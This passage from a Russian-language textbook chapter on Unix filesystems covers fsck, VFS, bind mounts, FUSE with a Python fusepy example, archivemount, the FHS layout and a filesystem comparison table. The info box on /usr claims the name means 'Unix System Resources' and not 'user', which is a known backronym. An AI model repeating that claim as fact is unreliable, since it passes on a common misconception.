# Проверка ext4
sudo fsck.ext4 /dev/sdb1

# Автоматическое исправление
sudo fsck.ext4 -y /dev/sdb1

# Проверка всех ФС из fstab
sudo fsck -A
```

### Восстановление superblock

```bash
# Найти резервные копии superblock
sudo dumpe2fs /dev/sdb1 | grep -i superblock

# Использовать резервную копию
sudo e2fsck -b 32768 /dev/sdb1
```

---

## 36.7 VFS (Virtual File System)

Мы рассмотрели несколько разных файловых систем: UFS, ext4, XFS. Каждая хранит данные по-разному. Но когда вы пишете `cat /home/user/file.txt`, вам не нужно знать, на какой ФС лежит файл. Как это работает? За это отвечает **VFS** — один из самых элегантных архитектурных слоёв UNIX.

### Что это?

**VFS** — это слой абстракции в ядре ОС, который предоставляет **единый интерфейс** для работы с разными файловыми системами. Без VFS каждая программа должна была бы знать, как работать с ext4, NTFS, FAT32 и т.д.


```mermaid
graph TB
    App["Приложение: cat /home/user/file.txt"]
    VFS["VFS: единый интерфейс<br/>open(), read(), write(), close()"]
    ext4["ext4 driver"]
    ntfs["NTFS driver"]
    nfs["NFS driver"]
    
    App --> VFS
    VFS --> ext4
    VFS --> ntfs
    VFS --> nfs
    
    ext4 --> disk1["/dev/sda2"]
    ntfs --> disk2["/dev/sdb1"]
    nfs --> network["Сетевой диск"]
```

VFS определяет набор операций, которые должен реализовать каждый драйвер ФС:

| Операция VFS | Что делает | Пример syscall |
|-------------|-----------|----------------|
| `lookup` | Найти файл по имени | `open("/etc/hosts")` |
| `read` | Прочитать данные | `read(fd, buf, size)` |
| `write` | Записать данные | `write(fd, buf, size)` |
| `readdir` | Прочитать содержимое директории | `ls /home` |
| `mkdir` | Создать директорию | `mkdir("new_dir")` |
| `unlink` | Удалить файл | `rm file.txt` |
| `stat` | Получить метаданные | `stat("/etc/hosts")` |

!!! note "Философское различие Unix vs Windows"
    **Unix/Linux:** Единое дерево директорий, начинающееся с `/`. Все диски монтируются в это дерево.
    
    **Windows:** Каждый диск — отдельное дерево с буквой (`C:\`, `D:\`, etc.)

### Bind Mounts: директория в двух местах

**Bind mount** позволяет «примонтировать» директорию в другое место дерева. Это НЕ symlink и НЕ копия — это та же самая директория, доступная по двум путям:

```bash
# Монтируем /home/user/project в /var/www/html
$ sudo mount --bind /home/user/project /var/www/html

# Теперь /var/www/html показывает содержимое /home/user/project
$ ls /var/www/html
index.html  style.css  # То же, что в /home/user/project

# Изменения видны в обоих местах
$ touch /home/user/project/new_file.txt
$ ls /var/www/html/new_file.txt
new_file.txt  # Появился!
```

**Отличия от symlink:**

| Аспект | Bind Mount | Symlink |
|--------|-----------|--------|
| Уровень | Ядро (VFS) | Файловая система |
| Виден в `ls -l` | Нет | Да (`l` тип) |
| Переживает reboot | Нет (без fstab) | Да |
| Chroot/container | Работает | Может сломаться |

**Типичное применение:**

- **Docker volumes** — bind mount хостовой директории в контейнер
- **chroot окружения** — `/dev`, `/proc`, `/sys` монтируются внутрь chroot
- **Разработка** — код в `$HOME`, а веб-сервер ищет в `/var/www`

```bash
# Постоянный bind mount через fstab
/home/user/project  /var/www/html  none  bind  0  0
```

---

## 36.8 FUSE — файловые системы в user-space

Обычно файловые системы работают **в ядре** — для написания новой ФС нужно писать kernel-модуль на C. **FUSE** (Filesystem in Userspace) позволяет создавать ФС как обычную программу:

```text
ls /mnt/myfs/
     │
     ▼
┌──────────────┐
│   VFS (ядро) │
└──────┬───────┘
       ▼
┌──────────────┐     ┌───────────────────────┐
│ FUSE (ядро)  │────→│ Ваша программа (user) │
└──────────────┘     │  Python, Go, Rust...  │
                     └───────────────────────┘
```

### Популярные FUSE-файловые системы

| Проект | Что делает | Установка |
|--------|-----------|-----------|
| **sshfs** | Монтирует удалённую ФС через SSH | `brew install sshfs` / `apt install sshfs` |
| **rclone mount** | Монтирует 40+ облачных хранилищ (Google Drive, S3, Dropbox) | `rclone mount gdrive: /mnt/gdrive` |
| **s3fs-fuse** | Монтирует S3-бакет как директорию | `s3fs bucket /mnt/s3 -o passwd_file=~/.s3cred` |
| **ntfs-3g** | NTFS на Linux/macOS (через FUSE) | Часто предустановлен |
| **apfs-fuse** | Чтение APFS на Linux | `apfs-fuse /dev/sda2 /mnt/apfs` |
| **encfs** | Шифрованная ФС поверх обычной | `encfs ~/.encrypted ~/decrypted` |

```bash
# sshfs — самое полезное применение FUSE
sshfs user@server:/data /mnt/server
ls /mnt/server/  # Файлы с удалённого сервера!
umount /mnt/server

# rclone — любое облако как директория
rclone mount google-drive: /mnt/gdrive --daemon
```

### Python: создание простейшей FUSE-ФС

```python
# pip install fusepy
from fuse import FUSE, FuseOSError, Operations
import errno, stat, time

class HelloFS(Operations):
    """ФС с одним файлом /hello, содержащим 'Hello, FUSE!'"""
    
    def getattr(self, path, fh=None):
        if path == "/":
            return dict(st_mode=stat.S_IFDIR | 0o755, st_nlink=2)
        elif path == "/hello":
            content = b"Hello, FUSE!\n"
            return dict(st_mode=stat.S_IFREG | 0o444, 
                       st_size=len(content), st_nlink=1)
        raise FuseOSError(errno.ENOENT)
    
    def readdir(self, path, fh):
        return [".", "..", "hello"]
    
    def read(self, path, size, offset, fh):
        if path == "/hello":
            content = b"Hello, FUSE!\n"
            return content[offset:offset + size]
        raise FuseOSError(errno.ENOENT)

# Монтирование: python hello_fs.py /mnt/hello
FUSE(HelloFS(), "/mnt/hello", foreground=True)
```

!!! tip "Идеи для FUSE-ФС"
    - **Wiki-FS**: директории = категории, файлы = статьи из Wikipedia API
    - **SQL-FS**: `cat /mnt/db/users/123.json` → SELECT из базы данных
    - **Git-FS**: монтирование любого коммита как read-only директории

### FUSE на практике: archivemount

**archivemount** — готовая FUSE-ФС, которая монтирует архив как обычную директорию. Никакой распаковки на диск — файлы из архива доступны через стандартные команды:

```bash
# Установка
$ sudo apt install archivemount    # Debian/Ubuntu
$ brew install archivemount        # macOS

# Монтируем tar.gz как директорию
$ mkdir /tmp/archive
$ archivemount backup.tar.gz /tmp/archive

# Теперь архив — обычная папка
$ ls /tmp/archive/
docs/  src/  README.md

$ cat /tmp/archive/README.md
# My Project ...

$ grep -r "TODO" /tmp/archive/src/
src/main.py:# TODO: refactor this

$ wc -l /tmp/archive/src/*.py
  142 /tmp/archive/src/main.py
   87 /tmp/archive/src/utils.py

# Размонтируем
$ fusermount -u /tmp/archive       # Linux
$ umount /tmp/archive              # macOS
```

Поддерживаемые форматы: `.tar`, `.tar.gz`, `.tar.bz2`, `.tar.xz`, `.zip`, `.iso`, `.cpio` и другие (всё, что понимает libarchive).

```bash
# Работает с любым форматом
$ archivemount project.zip /tmp/zip_mount
$ archivemount image.iso /tmp/iso_mount

# Можно даже писать в архив (для некоторых форматов)
$ archivemount -o readwrite archive.tar /tmp/rw_mount
$ echo "new file" > /tmp/rw_mount/new.txt
$ fusermount -u /tmp/rw_mount
# archive.tar теперь содержит new.txt
```

!!! note "Когда это полезно"
    - Просмотр содержимого огромного архива без распаковки на диск
    - Поиск по файлам внутри архива (`grep`, `find`, `diff`)
    - Скрипты, которым нужен доступ к отдельным файлам из архива
    - Сравнение содержимого двух архивов: `diff -r /tmp/mount1 /tmp/mount2`

!!! warning "Ограничения"
    archivemount загружает **индекс всего архива в память** при монтировании. Для архивов в десятки ГБ с миллионами файлов это может быть медленным и затратным по RAM. Альтернатива для больших tar-архивов — **ratarmount**, который строит индекс и кэширует его на диск.

---

## 36.9 Стандартная иерархия каталогов Unix

Unix-подобные системы используют **единое дерево** с корнем `/`. Стандарт **FHS** (Filesystem Hierarchy Standard) определяет назначение каждого каталога:

```
/                          (корень — единственная точка входа)
├── bin/                   (базовые утилиты: ls, cp, cat)
├── boot/                  (загрузчик и ядро)
├── dev/                   (устройства: /dev/sda, /dev/null)
├── etc/                   (конфигурация: /etc/fstab, /etc/passwd)
├── home/                  (домашние каталоги пользователей)
│   ├── alice/
│   └── bob/
├── mnt/ и /media/         (точки монтирования)
├── proc/                  (псевдо-ФС: информация о процессах)
├── root/                  (домашний каталог root)
├── sys/                   (псевдо-ФС: информация о системе/устройствах)
├── tmp/                   (временные файлы, очищается при загрузке)
├── usr/                   (пользовательские программы)
│   ├── bin/               (основные команды)
│   ├── lib/               (библиотеки)
│   ├── local/             (локально установленное ПО)
│   └── share/             (архитектурно-независимые данные)
└── var/                   (изменяемые данные)
    ├── log/               (логи: syslog, auth.log)
    ├── mail/              (почтовые ящики)
    └── tmp/               (временные, переживают reboot)
```

### Исторический контекст: /usr и /var

!!! info "Почему /usr?"
    Название `/usr` — сокращение от «Unix System Resources», а не «user». Исторически в ранних UNIX использовался второй диск для пользовательских программ. Сегодня многие дистрибутивы объединяют `/bin` → `/usr/bin` и `/sbin` → `/usr/sbin` (**UsrMerge**).

| Каталог | Содержимое | Особенности |
|---------|-----------|-------------|
| `/bin`, `/sbin` | Базовые утилиты | В современных системах → symlink на `/usr/bin` |
| `/usr/local` | Локально собранное ПО | Не затрагивается пакетным менеджером |
| `/opt` | Крупные пакеты (Java, Chrome) | Каждый пакет в своём подкаталоге |
| `/var/run` → `/run` | PID-файлы, сокеты | tmpfs, очищается при загрузке |
| `/proc/self` | Текущий процесс | Symlink на `/proc/<PID>` |

### Различия между дистрибутивами

**FreeBSD** добавляет `/rescue/` (статически слинкованные утилиты для восстановления), `/usr/ports/` (дерево портов) и `/usr/src/` (исходники системы). Базовая система чётко отделена от пакетов: `/usr/bin` — система, `/usr/local/bin` — пакеты.

**OpenBSD** содержит ядро прямо в корне (`/bsd`, `/bsd.mp`, `/bsd.rd`), `/usr/xenocara/` (исходники X.org), а `/var/www/` используется как DocumentRoot для встроенного httpd.

---

## Резюме

### Сводная таблица файловых систем

| ФС | Журнал | Max файл | Max ФС | Лучше для |
|----|--------|----------|--------|----------|
| ext2 | ❌ | 2 TB | 32 TB | Flash, /boot |
| ext3 | ✅ | 2 TB | 32 TB | Legacy |
| ext4 | ✅ | 16 TB | 1 EB | Универсальное |
| XFS | ✅ | 8 EB | 8 EB | Большие файлы, серверы |
| UFS2 | Soft Updates | 32 PB | 32 PB | FreeBSD |
| ReiserFS | ✅ | 1 EB | 16 TB | Много мелких файлов |
| JFS | ✅ | 4 PB | 32 PB | Legacy IBM |
| ZFS | CoW | 16 EB | 256 ZB | Пулы, снапшоты, целостность |
| Btrfs | CoW | 16 EB | 16 EB | Снапшоты, сжатие, Linux |
| F2FS | ✅ | 3.94 TB | 16 TB | SSD, Flash, мобильные |
| APFS | CoW | 8 EB | 8 EB | macOS, iOS |
| bcachefs | CoW | — | — | Linux, новейшая CoW |

### Ключевые выводы главы

- **FFS** (не UFS!) предложила фундаментальную идею групп цилиндров, которая живёт в ext2/3/4 как «группы блоков»
- **ext2 → ext3** — достаточно одной команды `tune2fs -j` (идентичный формат на диске)
- **Журнал** решает crash consistency: без него 5 из 6 сценариев сбоя повреждают ФС
- **ext4** сделала скачок благодаря extents, delayed allocation и multiblock allocation
- **XFS** лучше всего подходит для больших файлов и параллельного I/O, но не умеет уменьшаться
- **VFS** обеспечивает единый интерфейс, чтобы `cat` работал одинаково на ext4, NFS и FUSE
- **Опции монтирования** — важный элемент безопасности (`noexec`, `nosuid`, `nodev`)

### Чего не решают классические ФС: silent data corruption

Журнал (ext3/ext4, XFS) защищает от **crash consistency** — несогласованности метаданных после сбоя. Но есть проблема, которую он не решает: **тихое повреждение данных** (silent data corruption).

Диски могут молча вернуть испорченные данные — из-за сбоя прошивки, космического излучения, ошибки контроллера или ошибки на шине. ext4 и XFS **не хранят контрольных сумм данных**, поэтому не могут обнаружить такое повреждение — вы просто получите испорченный файл и не узнаете об этом. Эту проблему решают CoW-файловые системы — [ZFS](40-zfs.md) и [Btrfs](../ch5/41-btrfs.md), которые хранят checksum для **каждого** блока данных.

??? question "Упражнения"
    **Задание 1.** Создайте ext4 файловую систему на loop-устройстве: `mkfs.ext4 /dev/loop0`. Смонтируйте и исследуйте через `dumpe2fs`.
    
    **Задание 2.** Сравните XFS и ext4: создайте обе ФС на одинаковых устройствах, скопируйте одинаковые данные, сравните `df`, скорость операций.
    
    **Задание 3.** Проверьте журнал ext4: `debugfs /dev/loop0` → `logdump`. Какая информация хранится в журнале?

!!! tip "Следующая глава"
    Продолжим изучение файловых систем — **Windows: NTFS и ReFS** → [Windows FS](37-windows-fs.md)
